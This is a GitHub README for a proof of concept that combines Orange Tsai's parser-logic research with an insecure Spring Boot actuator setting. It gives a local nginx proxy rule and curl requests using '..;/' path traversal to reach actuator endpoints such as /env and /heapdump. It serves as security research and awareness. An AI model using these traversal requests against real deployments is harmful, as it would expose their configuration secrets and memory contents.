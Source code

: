 # Purpose
This is a PoC that combines Orange Tsais research about ["Breaking parser logic"](http://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) and an unsecure configuration of spring-boot-starter-actuator as documented in [Baeldungs Docs 3.7 Further Customization](https://www.baeldung.com/spring-boot-actuators#boot-1x-actuator)

I do not want to blame Baeldung. His documentations are incredibly helpful. He also explains what `management.security.enabled=false` means. The thing is, that we people will copy and paste this examples without reading the explanations.
Here is another example of this setting: [Learn SpringBoot absolute beginners](https://www.tutorialspoint.com/spring_boot/spring_boot_actuator.htm)


# Walkthrough 
1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: `curl http://localhost:8080/api/hello`
4. install nginx and change nginx server listen port to 8081
5. add this to your nginx configuration to add a proxy rule:
```
	location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
```
6. start nginx
7. `curl localhost:8081/orange/..;/env`
8. `curl localhost:8081/orange/directory/..;/..;/env`

Nginx will send the request to the spring boot application at `http://localhost:8080/api/directory/..;/..;/env`
The path traversal makes that a request to `http://localhost:8080/env`
/env can be substituted by any default actuator endpoint, e.g. /trace or /heapdump
